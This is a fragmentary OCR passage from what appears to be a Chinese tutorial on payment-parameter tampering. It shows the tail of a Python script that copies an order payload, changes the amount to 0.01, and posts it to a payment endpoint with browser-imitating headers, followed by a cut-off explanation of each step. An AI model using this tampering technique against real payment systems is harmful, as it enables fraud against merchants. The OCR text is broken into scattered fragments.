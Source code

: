 ```
# 
正常价格
 
'quantity': '1',
           
# 
购买数量
 
'user_token': 'abcdefg'
    
# 
用户令牌
}
# 
篡改订单金额为
0.01
malicious_payload = original_payload.copy()
malicious_payload['amount'] = '0.01'
# 
发起支付请求
response = requests.post(url, headers=headers, data=malicious_payload)
# 
输出响应结果
print(f"Response Status Code: {response.status_code}")
print(f"Response Body: {response.text}")
```  
  
  
代码解释  
  
定义目标  
URL  
和  
Headers  
：  
  
url   
是支付接口的地址。  
  
headers   
包含了一些常见的  
HTTP  
头信息，用于伪装成正常的浏览器请求。  
  
2.   
构造原始订单数据：  
  
original_payload   
表示正常的订单数据，包括商品  
ID  
、金额、数量和用户令牌。  
  
3.   
篡改订单金额：  
  